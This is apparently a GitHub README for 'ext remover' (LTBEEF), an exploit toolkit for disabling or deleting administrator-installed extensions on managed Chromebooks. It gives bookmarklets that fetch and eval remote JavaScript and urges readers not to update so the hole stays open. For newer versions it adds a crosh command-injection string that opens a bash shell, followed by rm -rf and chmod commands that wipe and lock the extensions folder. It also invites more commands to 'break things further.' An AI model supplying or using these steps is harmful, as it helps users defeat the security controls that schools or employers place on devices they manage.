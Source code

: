 # ext remover

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)

Bookmarklet exploit that can force-disable any extension installed on Google Chrome. Also known as LTBEEF.

**DO NOT UPDATE YOUR CHROMEBOOK! This exploit has been patched in versions 106 and above, so do not update!** If you version is above 106, [try this method](https://github.com/3kh0/ext-remover#v106-and-above)

If you need any help, please go here: https://github.com/3kh0/ext-remover/discussions

## Instructions

Here are the instructions to using this exploit! There are two ways, using the GUI and using the ids, the GUI method is better.

### Ingot (GUI)

Credit to Nebelung for this, [link to the github](https://github.com/FogNetwork/Ingot)

For easy setup go the the website at https://fognetwork.github.io/Ingot

1. Show your bookmarks bar with `ctrl + shift + b`
2. Right click on the bar and choose `Add Page`
3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/FogNetwork/Ingot/blob/main/bookmarklet.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)

### Using the GUI

Credit to CompactCow#4717 for the amazing UI!

1. Right click on the bar and choose `Add Page`
1. Set the name to `GUI` and the URL to the code below or [here](https://github.com/3kh0/ext-remover/blob/main/gui.js)
```js
javascript:fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
3. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
4. Click the bookmark (Make sure you are on the page above!)
5. Use the menu to toggle your extensions!

**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)

### Using IDs

#### Disabling 

1. Visit chrome://extensions and on the extension you want to disable click on Details
2. Copy the text in the URL after the `?id=`
> For example if you have this URL: `chrome://extensions/?id=echoontop` you would only copy `echoontop`
3.  Go to the file [`bookmark.js`](https://github.com/3kh0/ext-remover/blob/main/bookmark.js) and copy everything and create a new bookmark and use the code you copied as the Page URL
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. Click the bookmark (Make sure you are on the page above!)
6.  Put the ID you copied into the text box.

You're done! The extension should now be disabled.

**If this helped please give me a star!**

#### Enabling

1. Visit chrome://extensions and on the extension you want to enable click on Details
2. Click View in Chrome Web Store
3. You will see a banner at the top of the page that says This item has been disabled in Chrome. Enable this item
4. Click on Enable this item

You're done! The extension should now be enabled.

**If this helped please give me a star!**

Credit bypassi for finding and making this exploit!

So... How does it work?
Well, it's pretty basic. It finds extensions and displays them on this page with some toggle switches
![image](https://yeeteeyt.github.io/exploitbranch.png)

then, it detects when the toggle switch is toggled, and for what extension, then compiles a message to chrome that says "hey, turn this off for me". Chrome, mistaking this for the webstore complies.
![image](https://yeeteeyt.github.io/exploitgrid.png)

## v106 and above

This exploit details another way to permanently delete extensions. Once done, you can update or restart your chromebook and the extensions will stay gone until you powerwash.

You need a usb for downgrading, and rudimentary knowledge of bash is recommended

STEPS:
1. Downgrade to any version below 101. Instructions are in [Chrome100.dev](https://chrome100.dev).
2. Hit `ctrl+alt+t` to open a crosh window. If it’s blocked by extensions, use LTBEEF. If it’s policy blocked (“The person who set up this computer has chosen to block this site”) you can try downgrading to a version below 90, where crosh had a different URL.
3. Type in `set_cellular_ppp \';bash;exit;\'` and hit enter. 
4. You now have access to a bash shell, logged in as chronos. More information about the permissions of this shell is at the bottom.
5. Type `rm -rf ~/Extensions/*`. **THIS WILL BREAK EVERY EXTENSION ON YOUR CHROMEBOOK.** If there are extensions you want to keep, they can be selectively removed by ID using `rm -rf ~/Extensions/InsertIdHere`
6. Run `chmod 000 ~/Extensions`. This marks the extension folder as read only, stopping it from updating in the future or any new extensions from being installed.
7. You can now restart chrome, allowing it to update to the latest version. Once rebooted onto the latest version, all removed extensions will have the default icon and won’t function at all.

**Things you can’t do**
1. Run sudo or su into root. There might be ways to privilege escalate to root using disclosed chromium bug reports, but at the moment I have not gotten any of them to work on managed chromebooks
2. Enable dev mode or use dev mode things
3. Write to certain protected folders
4. Install packages
5. Install your own extensions. There is no way that known of (right now) to do that, so don’t ask. Please suggest any ideas.
6. Modify an existing extension. Extensions are checksummed before running, so any modification will result in chrome thinking the extension is “corrupted” and trying to redownload it, failing if the directory is marked readonly

If anyone knows some fun commands for the bash shell to break things even further, let me know!

Thanks to CoolElectronics for finding this amazing trick, trent:gra.im and justinchrm for helping with some parts, and the discoverer of the original bash shell exploit found here https://bugs.chromium.org/p/chromium/issues/detail?id=1329945
